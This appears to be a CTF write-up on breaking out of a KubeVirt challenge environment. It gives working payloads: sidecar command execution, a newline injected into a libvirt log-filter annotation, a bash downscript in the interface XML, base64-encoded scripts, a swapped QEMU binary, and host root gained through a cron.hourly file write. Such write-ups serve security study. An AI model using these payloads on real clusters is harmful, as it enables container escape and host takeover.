

This challenge allows you to define a KubeVirt virtual machine, requiring you to run `/etc/readflag` on the host machine and output the result to the virtual machine's console.

## Step 1: Running Code in the `hook-sidecar-0` Container

The `Sidecar` feature is enabled in `kubevirt-cr.yaml`. Referencing KubeVirt's [documentation](https://kubevirt.io/user-guide/user_workloads/hook-sidecar/), we find that this feature allows arbitrary code execution within the pod. Although the documentation doesn't specify how to run code without relying on ConfigMaps and Images, by looking into the [source code](https://github.com/kubevirt/kubevirt/blob/892f9593e80f63919c59d482d687bd08168ed3b4/pkg/hooks/hooks.go#L47), it's easy to discover a method to execute arbitrary commands. Therefore, we can run code in a whatever namespace on the host.
```go
type HookSidecar struct {
	Image           string                           `json:"image,omitempty"`
	ImagePullPolicy k8sv1.PullPolicy                 `json:"imagePullPolicy"`
	Command         []string                         `json:"command,omitempty"`
	Args            []string                         `json:"args,omitempty"`
	ConfigMap       *ConfigMap                       `json:"configMap,omitempty"`
	PVC             *PVC                             `json:"pvc,omitempty"`
	DownwardAPI     v1.NetworkBindingDownwardAPIType `json:"-"`
}
```

## Step 2: Running Code in the `compute` Container

After some experimentation we can know apparent that the `HookSidecar` runs in a separate container and cannot directly interact with the QEMU process. The QEMU is running in `compute` container. By reading the [code](https://github.com/kubevirt/kubevirt/blob/v1.3.1/pkg/virt-controller/services/template.go#L478), we can confirm that it shares only the same netns with `compute` - it does not share the pidns and filesystem, only `/var/run/kubevirt-hooks` is shared. We need to find a way to escape into the `compute` container.

Since the `HookSidecar` is designed to customizing the Libvirt XML configuration, we need to find a method to execute arbitrary code by modifying the Libvirt XML.

If you're familiar with [QEMU Invocation](https://qemu-project.gitlab.io/qemu/system/invocation.html), you may have noticed the following passage:

```bash
# call "netcat 10.10.1.1 4321" on every TCP connection to 10.0.2.100:1234
# and connect the TCP stream to its stdin/stdout
qemu-system-x86_64 -nic  'user,id=n1,guestfwd=tcp:10.0.2.100:1234-cmd:netcat 10.10.1.1 4321'
```

This used in Google CTF 2019 before, can indeed be used to run arbitrary code. But in our environment, QEMU is managed by Libvirt. When Libvirt starts QEMU, it by default attaches `-sandbox on` parameters, which the behavior can only be modified by editing [/etc/libvirt/qemu.conf](https://libvirt.org/kbase/qemu-passthrough-security.html). In KubeVirt, we don't have the permissions to do this. Therefore, we cannot let QEMU to run our code, the next direction is Libvirt.

By searching `virCommandNew` in Libvirt, we can easily find [`virNetDevRunEthernetScript`](https://gitlab.com/libvirt/libvirt/-/blob/v10.9.0/src/util/virnetdev.c?ref_type=tags#L3466). So the following configuration can  execute bash.
```xml
    <interface type='ethernet'>
      <downscript path='/bin/bash'/>
      <model type='virtio'/>
      <target dev='bash argument' managed='no'/>
    </interface>
```

Since we cannot insert the `-c` option, we need to write our script to a file to let bash execute. After reviewing KubeVirt's documentation and conducting some tests, we can inject the following annotation:

```yaml
kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(YOUR COMMAND HERE)"
```

This way, the script will be written to `/var/run/libvirt/virtqemud.conf`, and then we can execute it.Additionally, since `/var/run/kubevirt-hooks` is also shared, it would be better to write the script into this directory.


```bash
#!/bin/bash
tempFile=`/bin/mktemp --dry-run`
echo $4 > $tempFile
if [ ! -f "/tmp/aaaa" ]; then
  echo 0 > /tmp/aaaa
fi
/bin/sed -i $tempFile -e "s|tap0|/var/run/libvirt/virtqemud.conf|g"
/bin/sed -i $tempFile -e "s|</interface>|<downscript path='/bin/bash'/></interface>|g"
/bin/cat $tempFile
```
- vm.yaml

```yaml
      annotations:
        kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(touch /tmp/test)"
        hooks.kubevirt.io/hookSidecars: |
          [{"command": ["/bin/bash"], "args": ["-c", "echo BASE64 OF SIDECAR.SH' | base64 -d > /tmp/onDefineDomain && chmod +x /tmp/onDefineDomain && PATH=/tmp /sidecar-shim --version v1alpha2"]}]
```


## Step 3: Obtaining the flag

Note that the `HostDisk` is enabled in `kubevirt-cr.yaml`, but we cannot mount `/etc/readflag` into the VM - it has chmod 0111, meaning we only have `x`. We need to find a way to run `/etc/readflag` inside the container and capture its output.

When we mount the `/etc/passwd` file, KubeVirt mounts `/etc` to `/run/kubevirt-private/vmi-disks/DISKNAME/` directory inside the container. Therefore, we can use bash to execute `/etc/readflag > /tmp/flag.txt`, and then mount `flag.txt` into the VM.

## Step 4: Outputting the flag

After successful RCE, we need to restore the original Libvirt XML, otherwise we won't be able to start the VM and obtain the output. There are some peculiar details here that may require additional debugging and adjustments.

Final:

- sidecar.sh
```bash
#!/bin/bash

tempFile=`/bin/mktemp --dry-run`
echo $4 > $tempFile
if [ ! -f "/tmp/aaaa" ]; then
  echo 0 > /tmp/aaaa
fi
/bin/sed -i $tempFile -e "s|tap0|/var/run/libvirt/virtqemud.conf|g"
/bin/sed -i $tempFile -e "s|-serial0|-serial123|g"
/bin/sed -i $tempFile -e "s|</interface>|<downscript path='/bin/bash'/></interface>|g"
/bin/cat $tempFile
```

- virtqemud.conf
```bash
/run/kubevirt-private/vmi-disks/test/readflag > /tmp/flag.txt
nohup bash -c '
v() {
    virsh -c qemu+unix:///session?socket=/var/run/libvirt/virtqemud-sock "$@"
}

for vm in $(v list --all --name); do
    v dumpxml $vm > /tmp/a.xml
    if [ -s /tmp/a.xml ]; then
        sed -i /tmp/a.xml \
            -e "s|/var/run/libvirt/virtqemud.conf|tap0|g" \
            -e "s|/bin/bash||g" \
            -e "s|-serial123|-serial0|g" \
            -e "s|/var/.*passwd|/tmp/flag.txt|g"
        v define /tmp/a.xml
    fi
done
' &>> /tmp/3.txt &
```

vm.yaml:
```yaml
apiVersion: kubevirt.io/v1
kind: VirtualMachine
metadata:
  name: test
spec:
  running: true
  template:
    metadata:
      annotations:
        kubevirt.io/libvirt-log-filters: "2:qemu.qemu_monitor 3:*\"\na=\"$(echo 'L3J1bi9rdWJldmlydC1wcml2YXRlL3ZtaS1kaXNrcy90ZXN0L3JlYWRmbGFnID4gL3RtcC9mbGFnLnR4dApub2h1cCBiYXNoIC1jICcKdigpIHsKICAgIHZpcnNoIC1jIHFlbXUrdW5peDovLy9zZXNzaW9uP3NvY2tldD0vdmFyL3J1bi9saWJ2aXJ0L3ZpcnRxZW11ZC1zb2NrICIkQCIKfQoKZm9yIHZtIGluICQodiBsaXN0IC0tYWxsIC0tbmFtZSk7IGRvCiAgICB2IGR1bXB4bWwgJHZtID4gL3RtcC9hLnhtbAogICAgaWYgWyAtcyAvdG1wL2EueG1sIF07IHRoZW4KICAgICAgICBzZWQgLWkgL3RtcC9hLnhtbCBcCiAgICAgICAgICAgIC1lICJzfC92YXIvcnVuL2xpYnZpcnQvdmlydHFlbXVkLmNvbmZ8dGFwMHxnIiBcCiAgICAgICAgICAgIC1lICJzfC9iaW4vYmFzaHx8ZyIgXAogICAgICAgICAgICAtZSAic3wtc2VyaWFsMTIzfC1zZXJpYWwwfGciIFwKICAgICAgICAgICAgLWUgInN8L3Zhci8uKnBhc3N3ZHwvdG1wL2ZsYWcudHh0fGciCiAgICAgICAgdiBkZWZpbmUgL3RtcC9hLnhtbAogICAgZmkKZG9uZQonICY+PiAvdG1wLzMudHh0ICY=' | base64 -d | bash)"
        hooks.kubevirt.io/hookSidecars: |
          [{"command": ["/bin/bash"], "args": ["-c", "echo 'IyEvYmluL2Jhc2gKCnRlbXBGaWxlPWAvYmluL21rdGVtcCAtLWRyeS1ydW5gCmVjaG8gJDQgPiAkdGVtcEZpbGUKaWYgWyAhIC1mICIvdG1wL2FhYWEiIF07IHRoZW4KICBlY2hvIDAgPiAvdG1wL2FhYWEKZmkKL2Jpbi9zZWQgLWkgJHRlbXBGaWxlIC1lICJzfHRhcDB8L3Zhci9ydW4vbGlidmlydC92aXJ0cWVtdWQuY29uZnxnIgovYmluL3NlZCAtaSAkdGVtcEZpbGUgLWUgInN8LXNlcmlhbDB8LXNlcmlhbDEyM3xnIgovYmluL3NlZCAtaSAkdGVtcEZpbGUgLWUgInN8PC9pbnRlcmZhY2U+fDxkb3duc2NyaXB0IHBhdGg9Jy9iaW4vYmFzaCcvPjwvaW50ZXJmYWNlPnxnIgovYmluL2NhdCAkdGVtcEZpbGUK' | base64 -d > /tmp/onDefineDomain && chmod +x /tmp/onDefineDomain && PATH=/tmp /sidecar-shim --version v1alpha2"]}]
    spec:
      domain:
        devices:
          disks:
          - disk:
              bus: virtio
            name: containerdisk
          - disk:
              bus: virtio
              readonly: true
            name: test
          - name: cloudinitdisk
            disk:
              bus: virtio
        resources:
          requests:
            memory: 64M
      volumes:
      - containerDisk:
          image: quay.io/kubevirt/cirros-container-disk-demo
        name: containerdisk
      - hostDisk:
          capacity: "0"
          path: /etc/passwd
          type: Disk
        name: test
      - name: cloudinitdisk
        cloudInitNoCloud:
          userDataBase64: SGkuXG4=
```

Then `sudo cat /dev/vdb` inside the VM to get the flag.



## Other Solutions

### Modifying QEMU

From Team [Blue Water](https://ctftime.org/team/205897/): Since you can write files into `/var/run/kubevirt-hooks` in the sidecar container, you can replace the QEMU binary that is launched.

```bash
FAKE_QEMU_KVM = """#!/bin/sh
/var/run/kubevirt-private/vmi-disks/host-disk/readflag > /var/run/kubevirt-private/vmi-disks/host-disk/4702de95-266c-4a95-a248-48db34408d9e

exec /usr/libexec/qemu-kvm "$@"
"""
open("/var/run/kubevirt-hooks/qemu-kvm", "wt").write(FAKE_QEMU_KVM)
os.chmod("/var/run/kubevirt-hooks/qemu-kvm", 0o755)
print(sys.argv[4].replace("/usr/libexec/qemu-kvm", "/var/run/kubevirt-hooks/qemu-kvm"))
```
### Root the Host

In the `hostDisk` option, if you set the type to `DiskOrCreate` and bind it to a non-existent file, KubeVirt will mount the containing folder as a Kubernetes `DirectoryOrCreate`. Kubernetes will perform a `chown` operation on that folder with root privileges.

```bash
[root@VM-0-226-tencentos ~]# mkdir /etc/bbb
[root@VM-0-226-tencentos ~]# ls -rla /etc/bbb
total 16
drwxr-xr-x 113  107  107 12288 Dec 22 13:26 ..
drwxr-xr-x   2 root root  4096 Dec 22 13:26 .
[root@VM-0-226-tencentos ~]# ls -rla /etc/bbb
total 20
-rw-r--r--   1 107 107 1048576 Dec 22 13:26 aaaaaa
drwxr-xr-x 113 107 107   12288 Dec 22 13:26 ..
drwxr-xr-x   2 107 107    4096 Dec 22 13:26 .
```

During the competition, this corrupted the permissions of many folders on the server.


The actions of KubeVirt and Kubernetes in this context are quite perplexing. Since we can directly write any content into `/dev/vdb` in the VM, it's equivalent to having a vulnerability that allows us to create new files at any arbitrary path (we cannot modify the permissions of existing files). By writing file to `/etc/cron.hourly`, we can gain root access on the host.

This solution does not require `Sidecar`, but dependent on the host OS.


